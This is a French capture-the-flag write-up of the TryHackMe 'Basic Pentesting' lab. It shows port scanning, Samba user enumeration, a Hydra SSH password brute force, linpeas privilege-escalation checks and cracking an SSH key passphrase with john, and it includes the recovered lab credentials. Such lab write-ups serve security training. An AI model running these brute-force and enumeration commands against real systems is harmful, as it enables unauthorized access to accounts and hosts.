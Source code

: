 # 💼 Basic Pentesting

{% embed url="https://tryhackme.com/r/room/basicpentestingjt" %}

Lien Gitbook : [https://olb.gitbook.io/thm-ctf-write-ups/basic-pentesting](https://olb.gitbook.io/thm-ctf-write-ups/basic-pentesting)

IP=10.10.57.76 &#x20;

## Nmap&#x20;

Résultats:

* Port 22 SSH open&#x20;
* Port 80 http open -Apache 2.4.18&#x20;
* Port 139 / 445 samba open&#x20;
* Port 8080 http open –Apache Tomcat/9.0.7&#x20;
* Port 8009 ajp13&#x20;

&#x20;[https://book.hacktricks.xyz/network-services-pentesting/8009-pentesting-apache-jserv-protocol-ajp](https://book.hacktricks.xyz/network-services-pentesting/8009-pentesting-apache-jserv-protocol-ajp) &#x20;

## &#x20;Nikto&#x20;

```
nikto -h 10.10.57.76
```

&#x20;Résultat: `+ /development/: Directory indexing found`&#x20;

&#x20;On se rend sur `/development/`

<img src="https://lh7-us.googleusercontent.com/lnbANnNfmr9A-wz2Bryp-9vsmW_viu64YV3Vmdc4H7nUBqczCZlCSph4tU6XJR8drR9uz1b4QGq7FcxHo95dlt6khUsolRM0dhJlhx6LGcjCQf9fMP85YS55sVYW2vzfnz8XjDJgptr2DJuYvPicliw" alt="" data-size="original">

&#x20;[On lit](#user-content-fn-1)[^1] : [http://10.10.57.76/development/dev.txt\
](http://10.10.57.76/development/dev.txt)

* User K and user J ?&#x20;
* version 2.5.12 ? Struts ?&#x20;
* SMB (à creuser)&#x20;

On lit aussi : [http://10.10.57.76/development/j.txt](http://10.10.57.76/development/j.txt)&#x20;

* J a un mdp faible (brute force de J ?)  &#x20;

## Enum4linux

On enumère smb/samba (445) avec le script enum4linux

```
enum4linux 10.10.57.76 | tee enum.txt
```

Résultat:

* \[+] Enumerating users using SID S-1-22-1 and logon username '', password ''&#x20;

`S-1-22-1-1000 Unix User\kay (Local User)`&#x20;

`S-1-22-1-1001 Unix User\jan (Local User)`&#x20;

&#x20;Donc désormais:

* On a nos user J et K => jan et kay&#x20;
* Jan a un mdp faible donc => brute force via Hydra sur ssh&#x20;

## Brute force SSH (hydra)

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.57.76 ssh  -V 
```

<figure><img src=".gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

```
ssh jan@10.10.57.76 
```

`jan:armando`&#x20;

![](https://lh7-us.googleusercontent.com/\_UzGvjexJEu6Fwdvqfv448VoWwGGtob-u75kqd0kWJMYJ0Vzd9YxiPfGOxQR9ALqftD2D0IZjhvlcT7vBrD8dpQOIOQ3AAi5brj7VWDqyvZNpKPlAZ5sEfn7TlQLzyBDONEUyr26MBd4izLLxyR0XA4)

## &#x20;PrivEsc

* sudo –l => pas permis&#x20;
* Fichiers /etc/xxx => pas de permission&#x20;
* SUID/GUID &#x20;

`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`  &#x20;

\=> RAS&#x20;

Utilisation de[ linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) pour chercher une élévation de privilège éventuelle ?&#x20;

* Il faut le charger sur la VM cible&#x20;
* Pas d'écriture possible sur `/home/jan` donc on va sur `/tmp`&#x20;

<figure><img src=".gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

* On lance un serveur python sur sa Kali&#x20;

<figure><img src=".gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

* Et un wget sur la VM cible&#x20;

<figure><img src=".gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

On execute `linpeas.sh`

<figure><img src=".gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

&#x20;Linpeas nous informe qu'une clé privée est sur le répertoire home de kay !!

<figure><img src=".gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

On la récupère dans un fichier kay.private et on essaye de se connecter en ssh avec &#x20;

<figure><img src=".gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

La clé est partagée par passphrase.

On la brute force avec john:

<figure><img src=".gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

Passphrase:`beeswax`&#x20;

On se connecte en ssh avec la clé RSA de kay et la passphrase:

<figure><img src=".gitbook/assets/image (74).png" alt=""><figcaption></figcaption></figure>

Flag final dans le répertoire home de kay&#x20;

<figure><img src=".gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>

&#x20;

&#x20;

&#x20;

&#x20;

&#x20;

&#x20;

&#x20;

&#x20;

&#x20;

\


[^1]: 
